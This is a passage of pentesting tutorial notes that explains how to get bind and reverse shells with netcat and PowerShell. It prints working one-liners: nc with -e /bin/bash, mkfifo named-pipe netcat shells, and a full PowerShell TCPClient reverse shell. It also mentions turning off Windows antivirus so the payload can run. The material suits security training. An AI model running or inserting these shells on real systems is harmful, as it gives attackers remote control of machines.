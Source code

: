 For example, as a listener:
```
nc -lvnp <PORT> -e /bin/bash
```

Connecting to the above listener with netcat would result in a bind shell on the target.

Equally, for a reverse shell, connecting back with `nc <LOCAL-IP> <PORT> -e /bin/bash` would result in a reverse shell on the target.


#### NOTE:
On Windows where a static binary is nearly always required anyway, this technique will work perfectly.


On Linux, however, we would instead use this code to create a listener for a bind shell:

`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`


The command first creates a [named pipe](https://www.linuxjournal.com/article/2156) at `/tmp/f`. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into `sh`, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.


A very similar command can be used to send a netcat reverse shell:
```
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
---------------------------------------------------------------------------------

When targeting a modern Windows Server, it is very common to require a Powershell reverse shell, so we'll be covering the standard one-liner PSH reverse shell here.

This command is very ***convoluted***, so for the _sake of simplicity_ it will not be explained directly here. It is, however, an extremely useful one-liner to keep on hand:

```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
For other common reverse shell payloads, [Payloads all the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) is a repository containing a wide range of shell codes (usually in one-liner format for copying and pasting), in many different languages. It is well worth reading through the linked page to see what's available.


### NOTE: I wasn't able to run this `cmd` in windows 10 (in my env) unless, I chnged by windows security settings(Virus & threat protection settings)

